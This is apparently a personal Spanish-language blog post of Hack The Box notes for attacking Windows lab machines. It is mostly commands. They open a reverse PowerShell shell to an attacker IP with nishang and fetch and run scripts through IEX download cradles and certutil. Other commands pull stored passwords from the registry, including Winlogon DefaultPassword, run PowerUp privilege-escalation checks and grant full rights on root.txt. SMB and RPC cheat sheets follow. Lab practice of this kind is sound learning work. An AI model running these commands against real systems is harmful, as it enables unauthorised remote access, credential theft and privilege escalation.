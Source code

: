 ```yaml
---
layout: post
title: "Apuntes Maquinas Windows"
subtitle: 'apuntes recopilados para cada una de las maquinas windows que voy haciendo'
date: 2020-08-12 12:00:00
author: "TheusZero"
header-img: "images/post/windows/windowsApuntes.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


## Links Ricolinos

[Optium-HackTheBox](https://www.youtube.com/watch?v=fIGvOGrdxyc&list=PLlb2ZjHtNkpiSbrOfeRASNsvpHD6bEWoA)
[]()

## PowerShell
[powershells para windows](https://github.com/samratashok/nishang)

#### Pasos para invocar una una powerShell Manual
> recordar usar nc -nlvp port

> nishang/shells/Invoke_PowerShellTCP.ps1 

> colocar esto al final del invoke powershell **Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 443**

> abrir un SimpleHTTPServer en el puerto 8000

> dentro de la maquina, escribir: ```start /b powershell IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
>> esto ejecutara e interpretara el archivo ps1

ahora, cuando ya tenemos acceso con la powerShell debemos obtener un reconocimiento del sistema, debido a la utilizacion de la powershell no segura y de manera bruta podemos obtener una cantidad grande de *falsos positivos*, por eso mismo intentaremos jugar con comandos del sistema para asi poder acceder a una verdadera forma de escalar privilegios.

```Python
[Environment]::Is64BitsOperatingSystem
```

```Python
[Environment]::Is64BitsProcess
```
> si es falso, este proceso de shell es de 32bits, por lo que tenemos que migrar a mano a un proceso de 64 bits si o si debemos migrar

```start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
con esto logramos crear una powerShell que trabaje en 64bits, por lo que volvemos a lanzar un netcat para obtener la reverse shell otra vez

> preguntamos otra vez :
>> ```[Environment]::Is64BitsProcess```

una vez que es true podemos continuar y no van a darnos falsos positivos

## Privesec

#### obtencion de passwords
```Python
reg query HKLM /f  password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul |findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

#### winexe
ya cuando tenemos el tunnel hecho
```Python
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

#### netstat
recordar el exploit zzz para el samba
```Python
netstat -nat
```

#### windows suggester
[windows exploit suggester bacan](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

> python windows-exploit-suggester.py --update

> instalar python-xlrd con sudo apt-get install 

> python windows-exploit-suggester.py --database (archivo que se creo) --systeminfo systeminfo.txt (archivo que creamos)

**ir de arriba hacia abajo en los exploits que encontro**

[weseng](https://github.com/bitsadmin/wesng)

se copia todo el output en un archivo .txt y se ejecuta el comando o binario del wesng

#### ver permisos de ejecucion y como se ejecuta (tipo SUID)

```Python
PS C:\Users\Public\Desktop> $sh = New-Object -ComObject Wscript.Shell
PS C:\Users\Public\Desktop> $target = $sh.CreateShortcut('C:\Users\Public\Desktop\theprogram')
PS C:\Users\Public\Desktop> echo $target
```

#### whoami
```Python
whoami /priv
```

#### powerSploit
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

powersploit tiene un modulo para el privesec llamado **PowerUp.ps1**

> mismo principio de la powershell, se coloca esta linea al final del documento
```Python
Invoke-AllChecks
```

luego:

```Python
IEX(New-Object Net.WebClient).downloadString('http://myIp:8000/PowerUp.ps1')
```

#### cacls (access control list)
permisos para cada usuario, donde F es Full privilegios

```Python
cacls Administrator
```

```Python
cacls root.txt /grant TheUserMY:F
Y (yes)
```

## subir archivos binarios y ejecturlos en la maquina

> abrir un SimpleHttpServer para el binario

> en la maquina escribir
>> ```certutil.exe -f -urlcache -split http://myIpAdress/theBinary.exe thebinary.exe```

## samba and rpc cheatsheets

```Python
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
```

```Python
sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSWORD>

sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSOWRD> -g | grep Disk | cut -f 1 -d '|'
## LIST only the names of the shared Disk
```

```Python
rpcclient -U username ip
```

#### mount a smb folder in the host sistem
```Python
cd /mnt
mkdir smbMounted
cd smbMounted
mount -t cifs //IPAtacking/Folder /mnt/smbMounted -o username=null,password=null,domain=WORKGROUP,rw
```

## ssh

```Python
# SEND FILES THROUGH SSH
# ======================
## copy file from local over to remote server
scp -i <.ssh/key> <local/file> <user>@<host_name_or_ip>:<destination>
## using config
scp <local/file> <hostname>:<destination>
## copy file from remote server to local
scp -i <.ssh/key> <user>@<host_name_or_ip>:<file/to/copy> <local/destination>
## using config
scp <hostname>:<file/to/copy> <local/destination>
```